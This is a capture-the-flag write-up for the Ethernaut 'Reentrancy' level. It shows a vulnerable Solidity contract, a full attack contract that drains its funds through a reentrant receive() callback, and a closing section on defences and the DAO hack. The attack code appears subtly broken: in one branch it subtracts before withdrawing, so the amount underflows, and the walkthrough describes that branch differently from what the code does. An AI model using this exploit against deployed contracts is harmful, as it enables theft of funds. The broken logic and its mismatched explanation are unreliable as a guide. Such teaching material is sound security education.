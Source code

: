 # Reentrancy

## Challenge Description

The goal of this level is for you to steal all the funds from the contract.

Things that might help:

-   Untrusted contracts can execute code where you least expect it.
-   Fallback methods
-   Throw/revert bubbling
-   Sometimes the best way to attack a contract is with another contract.
-   See the ["?"](https://ethernaut.openzeppelin.com/help) page above, section "Beyond the console"

## Challenge Code

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.12;

import "openzeppelin-contracts-06/math/SafeMath.sol";

contract Reentrance {
    using SafeMath for uint256;
    mapping(address => uint) public balances;

    function donate(address _to) public payable {
        balances[_to] = balances[_to].add(msg.value);
    }

    function balanceOf(address _who) public view returns (uint balance) {
        return balances[_who];
    }

    function withdraw(uint _amount) public {
        if (balances[msg.sender] >= _amount) {
            (bool result, ) = msg.sender.call{ value: _amount }("");
            if (result) {
                _amount;
            }
            balances[msg.sender] -= _amount;
        }
    }

    receive() external payable {}
}
```

## Challenge Solution Walkthrough

In this challenge, the goal is to drain all the funds from the given contract by repeatedly calling the `withdraw()` function and taking advantage of the reentrancy vulnerability.

To achieve this, we can deploy a separate contract, named `ReentranceSolution`, that will interact with the vulnerable contract and repeatedly call the `withdraw()` function. This contract will also handle the reentrancy attack by implementing a `receive()` function.

Here's an example implementation of the `ReentranceSolution` contract:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.12;

import "./10Reentrancy.sol";

contract ReentranceSolution {
    Reentrance public reentrance;
    uint256 public valueToDonate;
    uint256 public totalValue;

    constructor(address reentranceAddress) public {
        reentrance = Reentrance(payable(reentranceAddress));
    }

    function solveChallenge() public payable {
        valueToDonate = msg.value;
        totalValue = address(reentrance).balance;
        reentrance.donate{ value: valueToDonate }(address(this));
        reentrance.withdraw(valueToDonate);
    }

    receive() external payable {
        if (totalValue == 0) {
            return;
        } else if (valueToDonate <= totalValue) {
            totalValue -= valueToDonate;
            reentrance.withdraw(valueToDonate);
        } else if (valueToDonate > totalValue) {
            totalValue -= valueToDonate;
            reentrance.withdraw(totalValue);
        }
    }
}
```

In the `solveChallenge()` function, we first donate a specific amount of money to the vulnerable contract by calling the `donate()` function. Then, we immediately call the `withdraw()` function to start the reentrancy attack.

The `receive()` function is marked as `external payable`, which means it can receive Ether. In this function, we handle the reentrancy attack by repeatedly calling the `withdraw()` function until all the funds are drained. If the total value of the funds in the vulnerable contract (`totalValue`) is greater than or equal to the amount we donated (`valueToDonate`), we call `withdraw(valueToDonate)`. Otherwise, we call `withdraw(totalValue)` to drain the remaining funds.

By executing the `solveChallenge()` function of the `ReentranceSolution` contract, we initiate the reentrancy attack and drain all the funds from the vulnerable contract.

Congratulations! You have successfully completed the challenge.

## Challenge Description After Solving

In order to prevent re-entrancy attacks when moving funds out of your contract, use the [Checks-Effects-Interactions pattern](https://solidity.readthedocs.io/en/develop/security-considerations.html#use-the-checks-effects-interactions-pattern) being aware that `call` will only return false without interrupting the execution flow. Solutions such as [ReentrancyGuard](https://docs.openzeppelin.com/contracts/2.x/api/utils#ReentrancyGuard) or [PullPayment](https://docs.openzeppelin.com/contracts/2.x/api/payment#PullPayment) can also be used.

`transfer` and `send` are no longer recommended solutions as they can potentially break contracts after the Istanbul hard fork [Source 1](https://diligence.consensys.net/blog/2019/09/stop-using-soliditys-transfer-now/) [Source 2](https://forum.openzeppelin.com/t/reentrancy-after-istanbul/1742).

Always assume that the receiver of the funds you are sending can be another contract, not just a regular address. Hence, it can execute code in its payable fallback method and _re-enter_ your contract, possibly messing up your state/logic.

Re-entrancy is a common attack. You should always be prepared for it!

#### The DAO Hack

The famous DAO hack used reentrancy to extract a huge amount of ether from the victim contract. See [15 lines of code that could have prevented TheDAO Hack](https://blog.openzeppelin.com/15-lines-of-code-that-could-have-prevented-thedao-hack-782499e00942).
